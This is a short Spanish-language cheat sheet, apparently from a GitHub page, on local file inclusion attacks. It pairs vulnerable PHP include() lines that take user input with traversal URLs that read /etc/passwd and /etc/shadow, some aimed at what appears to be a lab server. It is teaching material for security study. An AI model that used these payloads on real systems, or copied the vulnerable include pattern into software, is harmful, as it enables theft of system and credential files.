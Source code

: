 ## tipos de ataque

### BASIC LFI

ejemplo:

```bash
http://localhost/file.php?file=../../../../../etc/passwd

http://localhost/file.php?file=../../../../../etc/shadow
```

mas ejemplos:

```bash
# URL

http://134.209.184.216:32391/basic/index.php?language=es.php

# CODIGO

include($_GET['language']);

# LFI

http://134.209.184.216:32391/basic/index.php?language=/etc/passwd
```

### PATH TRAVERSAL

```bash
# URL

http://134.209.184.216:32391/basic/index.php?language=es.php

# CODIGO

include("./languages/" . $_GET['language']);

# LFI con recorrido de ruta

http://134.209.184.216:32391/traversal/index.php?language=../../../../../../../../../etc/passwd
```

### FILENAME PREFIX

```bash
# URL

http://134.209.184.216:32391/basic/index.php?language=es.php

# CODIGO


include("lang_" . $_GET['language']);

# LFI

http://134.209.184.216:32569/traversal/index_2.php?language=/../../../../../etc/passwd
```
